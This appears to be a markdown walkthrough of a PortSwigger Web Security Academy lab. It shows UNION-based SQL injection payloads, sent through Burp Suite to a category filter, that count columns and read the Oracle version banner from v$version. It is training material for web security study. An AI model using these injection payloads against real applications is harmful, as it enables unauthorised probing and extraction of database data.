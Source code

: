 # Lab: SQL injection attack, querying the database type and version on Oracle

**Lab Link:** [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

## Explanation

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION-based SQL injection to extract data from the database.

The goal is to retrieve and display the **Oracle database version string**, which is stored in the system view `v$version`.

---

## Step-by-step Solution

### 🔹 Step 1: Intercept the request

- Use **Burp Suite** to intercept a request to `/filter?category=...` by clicking on any product category in the application.
- Send the request to **Repeater** for testing.

Example intercepted request:

```http
GET /filter?category=Accessories HTTP/1.1
Host: your-lab-id.web-securityacademy.net
🔹 Step 2: Determine number of columns
Send this payload in the category parameter:


'+UNION+SELECT+NULL,NULL+FROM+dual--
If the page loads without error → there are 2 columns in the original query.

🔹 Step 3: Identify which column(s) display text
Send a test with sample text:


'+UNION+SELECT+'abc','def'+FROM+dual--
If you see abc or def on the page, those columns are capable of displaying text.

🔹 Step 4: Retrieve the Oracle version string
Now send the real payload to extract the Oracle version from the v$version table:


'+UNION+SELECT+BANNER,NULL+FROM+v$version--
If successful, you will see output like:


Oracle Database 19c Enterprise Edition Release 19.0.0.0.0 - Production
Once this string is displayed, the lab will be marked as solved.